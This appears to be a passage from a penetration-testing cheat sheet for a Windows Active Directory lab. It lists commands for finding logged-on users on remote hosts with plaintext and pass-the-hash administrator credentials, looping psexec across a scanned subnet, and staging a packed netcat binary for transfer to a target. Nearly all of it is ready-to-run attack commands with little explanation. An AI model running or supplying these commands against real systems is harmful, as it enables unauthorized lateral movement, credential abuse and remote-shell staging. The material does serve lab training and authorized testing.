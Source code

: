 Manually with wmic command line

{% highlight PowerShell %}
wmic logon where LogonType=2 GET LoginID, LogonType
wmic path Win32_LoggedOnUser | find "273995"
wmic /node:10.50.1.254 /user:marvel.lab\troy.wood /password:"password123" path Win32_LoggedOnUser
{% endhighlight %}

Using WMiQuery

{% highlight PowerShell %}
wmiquery.py 'Administrator:Passw0rd!@10.50.1.254'
select LogonType, LogonID from Win32_logonsession where LogonType=2
{% endhighlight %}

Using PTH-Wmic

{% highlight PowerShell %}
pth-wmic -U "marvel.lab\Administrator%Passw0rd!" //10.50.1.254 'select LogonType, LogonID from Win32_logonsession where LogonType=2'
pth-wmic -U "marvel.lab\Administrator%Passw0rd!" //10.50.1.254 'select * Win32_loggedonuser'
{% endhighlight %}

Using Sysinternals PsLoggedOn64

{% highlight PowerShell %}
psexec.py -c /pentesting/PsLoggedon64.exe 'marvel.lab/Administrator:Passw0rd!@10.50.1.15' "-l -accepteula"
{% endhighlight %}

{% highlight PowerShell %}
nbtscan -r 10.50.1.0/24 | grep ^10 | awk '{ print $1 }' > /tmp/nbtscan.txt
for ip in $(cat /tmp/nbtscan.txt); do psexec.py -c /pentesting/PsLoggedon64.exe marvel.lab/Administrator:Passw0rd\!@${ip} "-l -accepteula"; done >> /tmp/loggedon.txt
{% endhighlight %}

# Transfer Files

## exe2bat.exe

Copy the binary we want to transfer using debug

{% highlight PowerShell %}
cp /usr/share/windows-binaries/nc.exe .
{% endhighlight %}

Pack it to make it smaller

{% highlight PowerShell %}
upx -9 nc.exe
{% endhighlight %}

Copy exe2bat to the current directory we are working in

{% highlight PowerShell %}
cp /usr/share/windows-binaries/exe2bat.exe .
{% endhighlight %}
